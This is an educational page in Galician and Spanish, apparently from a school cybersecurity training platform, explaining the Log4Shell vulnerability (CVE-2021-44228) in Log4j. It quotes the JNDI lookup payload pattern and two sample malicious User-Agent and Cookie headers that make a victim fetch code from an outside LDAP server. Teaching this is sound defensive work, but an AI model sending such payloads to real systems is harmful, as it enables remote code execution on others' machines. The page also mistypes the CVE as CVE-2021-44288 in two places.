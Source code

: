 ### Log4Shell

O 9 de decembro de 2021 faise pública a vulnerabilidade **CVE-2021-44228** (tamén coñecida como **Log4shell**). Trátase dunha vulnerabilidade que **permite a execución remota de código (RCE)**, que afecta á librería de software de código aberto Log4j, desenvolta en linguaxe Java, mantida por *Apache Software Foundation* e moi utilizada no software empresarial Java para a escritura de logs.

Debido ao amplo uso de Log4j, o sinxelo que é explotar a vulnerabilidade e que permite ao atacante a execución de comandos no equipo afectado (para gañar privilexios de administrador,  exfiltrar información, minado de  criptomonedas, …), considérase á CVE-2021-44288 como unha **vulnerabilidade de nivel crítico**.

Os atacantes lanzan peticións maliciosas coa seguinte estrutura: `${jndi:ldap://<servidor do atacante>/<payload>}` ou `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticións ao ser procesadas por Log4j provocan que o equipo vítima conéctase ao servidor do atacante, descarga o payload e execútao. A continuación pódense ver algúns exemplos de peticións maliciosas incrustadas en campos do protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`
  
  `Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras a publicación da vulnerabilidade, o GovCERT.ch (Computer Emergency Response Team) de Suíza publicou a seguinte imaxe que resume o proceso de ataque e as medidas de defensa: 
  
<h3 class="text-center">
  <img class="w-100 mx-auto d-block" style="max-width: 1024px;padding: 5px;" src="../imagenes/log4shell.png" /></h3>
<hr>

El 9 de diciembre de 2021 se hace pública la vulnerabilidad **CVE-2021-44228** (también conocida como **Log4shell**). Se trata de una vulnerabilidad que **permite la ejecución remota de código (RCE)**, que afecta a la librería de software de código abierto Log4j, desarrollada en lenguaje Java, mantenida por Apache Software Foundation y muy utilizada en el software empresarial Java para la escritura de logs. Debido al amplio uso de Log4j, lo sencillo que es explotar la vulnerabilidad y que permite al atacante la ejecución de comandos en el equipo afectado (para ganar privilegios de administrador, exfiltrar información, minado de criptomonedas, …), se considera a CVE-2021-44288 como una **vulnerabilidad de nivel crítico**.

Los atacantes lanzan peticiones maliciosas con la siguiente estructura: `${jndi:ldap://<servidor del atacante>/<payload>}` o `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticiones al ser procesadas por Log4j provocan que el equipo víctima se conecte al servidor LDAP del atacante, se descargue el payload y lo ejecute. A continuación se pueden ver algunos ejemplos de peticiones maliciosas incrustadas en campos del protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`
`Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras la publicación de la vulnerabilidad, el GovCERT.ch (Computer Emergency Response Team) de Suiza publicó la anterior imagen que resume el proceso de ataque y las medidas de defensa

---
<br>
<table align="center" cellspacing="50">
<tr>
   <td><h1 align=center><a href="https://www.iessanclemente.net/" target="_blank">IES San Clemente</a></h1></td>
   <td><h1 align=center><a href="https://www.cifprodolfoucha.es/"  target="_blank">CIFP Rodolfo Ucha Piñeiro</a></h1></td>
</tr>
<tr>
    <td><a href="https://www.edu.xunta.gal/" target="_blank"><img class="w-100 mx-auto d-block" style="max-width: 250px;padding: 5px;" src="../imagenes/logo_xunta_positivo.png" /></a></td>
    <td><a href="https://www.edu.xunta.gal/fp/convocatoria-innovacion-2022" target="_blank"><img class="w-100 mx-auto d-block" style="max-width: 250px;padding: 5px;" src="../imagenes/composicion_formacion_profesional_innova.png" /></a></td>
</tr>
</table>
      <p> </p>
      <h6>Actividade desenvolvida dentro do proxecto "Plataforma de retos de ciberseguridade. A gamificación no proceso de adquisición de competencias no ámbito da ciberseguridade", financiado na convocatoria de premios para o desenvolvemento de proxectos de innovación na FP do ano 2022.</h6>


